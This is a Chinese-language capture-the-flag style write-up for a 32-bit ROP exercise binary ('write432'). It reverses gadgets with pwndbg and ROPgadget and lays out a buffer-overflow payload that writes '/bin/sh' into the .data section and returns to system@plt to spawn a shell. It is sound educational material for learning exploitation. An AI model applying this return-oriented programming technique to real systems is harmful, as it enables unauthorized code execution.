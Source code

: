 ## Reverse
和 1-split 差不多，只是这次没有 `usefulString` 了，我们得透过 ROP Chain 把 `/bin/sh` 这个字串写入内存某处并调用 system()。

我想到的解题思路有两种：
1. 字串写在 stack
2. 字串写在任何一个 writable section

由于 ASLR 开启 stack 位址必定是随机化的，所以第一种方法在实务上比较行不通，因此我们选择第二种。

<br>

bof 的注入点和前几题一样，都是在 pwnme() 里面调用 gets() 的地方。我们就不再看它了，直接逆向 usefulFunction()。
```
pwndbg> disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804864c <+0>:     push   ebp
   0x0804864d <+1>:     mov    ebp,esp
   0x0804864f <+3>:     sub    esp,0x8
   0x08048652 <+6>:     sub    esp,0xc
   0x08048655 <+9>:     push   0x8048754  <--- "/bin/ls"
   0x0804865a <+14>:    call   0x8048430 <system@plt>
   0x0804865f <+19>:    add    esp,0x10
   0x08048662 <+22>:    nop
   0x08048663 <+23>:    leave
   0x08048664 <+24>:    ret
```

如果要直接 ret to system()，我们一定需要一个 `/bin/sh` 的字串是吧？ 所以在 ret to system() 前得先 ret 到其他地方做字串。

## ROP Gadgets
那么要 ret 到哪里呢？我们接着逆向 usefulGadgets()，可以找到一个有用的 gadget。
```
pwndbg> disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp  <--- gadget 1
   0x08048672 <+2>:     ret                         <--- gadget 1
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
```

我们可以把 ebp 的内容，复制到 edi 所指向的内存中（复制 4 bytes）。但这样不够，我们再接着看看 `ROPGadget --binary write432`，其中：
```
0x080486da : pop edi ; pop ebp ; ret  <--- gadget 2
```

这个 gadget 可以从 stack 上把东西 pop 到 edi 和 ebp，然后就会立刻 ret。

<br>

## Pwn
先设计下 payload：
```
11 * 'AAAA' +
gadget2     + buf       + '/bin'    + gadget1 +
gadget2     + (buf + 4) + '/sh\x00' + gadget1 +
system_plt  + 'AAAA'    + buf
```

针对上面逐行解释：
1. padding
2. ret 到 gadget2，然后从 stack 上 pop 两个东西分别到 edi, ebp，紧接着 ret 到 gadget1 写入 "/bin" 到 [edi]... (edi = buf)
3. ret 到 gadget2，然后从 stack 上 pop 两个东西分别到 edi, ebp，紧接着 ret 到 gadget1 写入 “/sh\x00” 到 [edi]... (edi = buf+4)
4. ret 到 system@plt，system() 的返回位址为 AAAA（没差），参数为 buf 字串。

那么重点是，我们要把 "/bin/sh" 写到哪里呢？在 ASLR 开启的时候 stack 位址是随机化的，所以我们接着：
```
$ readelf -S write432

There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

我们就写入 .data 吧，直接写入最前面就好，因此 buf = 0x0804a028。利用脚本请参看 exploit.py
